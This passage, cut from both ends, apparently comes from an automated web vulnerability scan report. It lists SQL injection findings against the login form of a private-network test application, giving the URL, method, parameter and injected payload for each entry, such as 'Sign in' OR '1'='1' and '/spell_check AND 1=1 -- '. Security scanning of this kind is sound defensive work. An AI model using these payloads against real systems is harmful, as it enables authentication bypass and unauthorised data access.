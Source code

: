   
  * Parameter: `next`
  
  
  * Attack: `/spell_check" AND "1"="1" -- `
  
  
  
  
* URL: [http://192.168.7.30:8080/login](http://192.168.7.30:8080/login)
  
  
  * Method: `POST`
  
  
  * Parameter: `password`
  
  
  * Attack: `zakk1989%`
  
  
  
  
* URL: [http://192.168.7.30:8080/login?next=/index](http://192.168.7.30:8080/login?next=/index)
  
  
  * Method: `GET`
  
  
  * Parameter: `next`
  
  
  * Attack: `/index OR 1=1`
  
  
  
  
* URL: [http://192.168.7.30:8080/login?next=/spell_check](http://192.168.7.30:8080/login?next=/spell_check)
  
  
  * Method: `POST`
  
  
  * Parameter: `next`
  
  
  * Attack: `/spell_check AND 1=1 -- `
  
  
  
  
* URL: [http://192.168.7.30:8080/login](http://192.168.7.30:8080/login)
  
  
  * Method: `POST`
  
  
  * Parameter: `submit`
  
  
  * Attack: `Sign in' OR '1'='1`
  
  
  
  
* URL: [http://192.168.7.30:8080/login](http://192.168.7.30:8080/login)
  
  
  * Method: `POST`
  
  
  * Parameter: `csrf_token`
  